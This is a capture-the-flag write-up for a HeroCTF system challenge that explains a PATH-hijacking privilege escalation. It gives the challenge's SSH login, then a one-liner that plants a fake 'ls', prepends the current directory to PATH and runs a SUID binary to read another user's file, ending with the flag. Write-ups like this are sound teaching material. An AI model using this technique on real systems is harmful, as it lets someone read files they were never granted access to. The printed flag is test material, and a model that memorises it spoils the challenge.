 # PrivesCorp #2: Motherload

### Category

System

### Description

You were contracted (for a lot of a money) by l'Hackonfrerie to steal some financial data. Extra money is always nice.

```shell
$ ssh bob@chall0.heroctf.fr -p 5002
password : password123
```

Format : **Hero{flag}**<br>
Author : **Log_s**

### Files

 - [exportSafePerms.cpp](src/exportSafePerms.cpp)

### Write up

The mistake that was made here is to use relative path for a system command instead of absolute. ~~```ls -ld```~~ -> ```/bin/ls -ld```.
This mistake allows us to trick the program in executing our own **ls** command. As *exportSafePerms* has SUID enabled, user bob is able to run it with the accountant's privileges (and therefor read the flag).

```echo "cat .financial.txt" > ls && chmod +x ls```

Now that we have our own **ls**, we just have to indicate the system to run this one, instead of the legit one.

```export PATH=.:$PATH```

Now it will look in the current directory, before looking in /bin. One thing good to know, is that SUID allows a user to run a program with someon else's permissions, but no as this user. Therefore, the user's path is kept, wich allows us to exploit it.

```./exportSafePerms```

Because of the fact that it was a shared instance, and the directory was emptied every half second, you had to run everything in on command :

```echo "cat .financial.txt" > ls && chmod +x ls && export PATH=.:$PATH && ./exportSafePerms```

PS : SUID does not directly work on a python script for example, since it will be interpreted by the python interpreter, which acts as a middle man, and does not have the SUID bit.

### Flag

```Hero{m0th3rl04d_g0e5_brrr}```